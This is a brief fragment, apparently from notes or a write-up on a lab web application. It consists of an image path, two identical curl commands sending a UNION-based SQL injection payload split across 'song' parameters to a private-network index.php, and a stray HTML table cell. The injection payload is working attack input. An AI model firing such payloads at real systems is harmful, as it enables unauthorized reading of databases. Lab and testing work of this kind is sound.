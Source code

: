 curl http://10.10.1.12:881/index.php --data-raw song=a' union select NULL, &song2=&song3=NULL,NULL,NULL, NULL, NULL -- 
curl http://10.10.1.12:881/index.php --data-raw song=a' union select NULL, &song2=&song3=NULL,NULL,NULL, NULL, NULL -- 
<td width=80>Year</td>
</tr>
